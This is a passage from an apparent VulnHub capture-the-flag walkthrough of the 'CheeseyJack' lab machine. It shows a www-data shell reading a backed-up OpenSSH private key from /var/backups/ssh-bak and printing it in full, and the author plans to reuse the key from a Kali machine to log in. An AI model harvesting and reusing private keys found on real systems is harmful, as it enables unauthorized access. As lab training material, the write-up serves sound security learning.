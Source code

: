 ```bash
dpkg.statoverride.1.gz
dpkg.statoverride.2.gz
dpkg.status.0
dpkg.status.1.gz
dpkg.status.2.gz
ssh-bak

```
There is an SSH-bak directory available. We should look into this to see what it contains. If there is a SSH key, we could just use it.
```bash
www-data@cheeseyjack:/var/backups$ cd ssh-bak
cd ssh-bak
www-data@cheeseyjack:/var/backups/ssh-bak$ ls
ls
key.bak
www-data@cheeseyjack:/var/backups/ssh-bak$ cat key.bak
cat key.bak
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
www-data@cheeseyjack:/var/backups/ssh-bak$ 

```
Let's copy the contents of the SSH key and create a key on our Kali. We can then paste the content into the key and save it. Of course, the rights still have to be set correctly. If this is not done, we will receive a message that the permissions are not set correctly.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
```
